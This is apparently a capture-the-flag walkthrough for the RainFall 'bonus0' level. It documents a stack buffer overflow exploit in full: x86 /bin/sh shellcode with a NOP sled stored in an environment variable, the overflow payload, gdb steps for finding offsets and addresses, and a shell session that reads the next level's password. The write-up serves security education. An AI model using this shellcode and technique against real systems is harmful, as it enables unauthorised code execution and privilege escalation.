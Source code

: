 # Walkthrough

## Solution
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```
```
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA|���AAAAAAA��� AAAAAAAAA|���AAAAAAA���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Explanation

### Execution

```
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
you
hello you
bonus0@RainFall:~$ ./bonus0
 - 
he llo
 - 
you
he llo you
```
-> wait for 2 inputs and concatenate them


### Disassembly

```
info var
data_start

info function
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  

Buffer addresses:  
buf = 0xbffff6f6  
buf1 = 0xbffff6a8  
buf2 = 0xbffff6bc  


### Execution

```
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
-> the 2nd input cause a segfault - **Offset is 9**
The buffer is only 20 chars, so we only have 11 bytes available to inject a shellcode, which is not enough.

Let's save our shellcode in an env variable:  
*Shellcode:*  
```
'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars
```  

The actual address of the shellcode must be known ahead of time, which can be difficult to know in a dynamically changing stack.
By creating a large array (or sled) of these NOP instructions and placing it before the shellcode, if the EIP returns to any address found in the NOP sled, the EIP will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. This means that as long as the return address is overwritten with any address found in the NOP sled, the EIP will slide down the sled to the shellcode, which will execute properly.  

**Shellcode env:**  
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  

#### Find the Shellcode env variable address

```
$> gdb bonus0
(gdb) break main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *((char **)environ)
0xbffff86c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
```  

the beginning of our NOP + shellcode is at address 0xbffff86c
-> we have to choose an address that contains a NOP (\x90), so that it will sled into the beginning of our shellcode and execute it

```
(gdb) x/12wx 0xbffff86c
0xbffff86c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff87c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff88c:	0x90909090	0x90909090	0x90909090	0x90909090
```

-> let's pick 0xbffff87c

> (python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0

<!-- 4095 + \n = 4096, to fill the buf3, \n because of the strchr(buf3, '\n') -->  
<!-- 'A' * 9 because the offset of the 2nd input that causes the segfault is 9 -->  
<!-- address of the shellcode (4 bytes) -->
<!-- 'A' * 7, so that we have 20 bytes for buf2 (9 + 4 + 7). -->  


source:  
https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html  
x/s *((char **)environ) to get address of env variables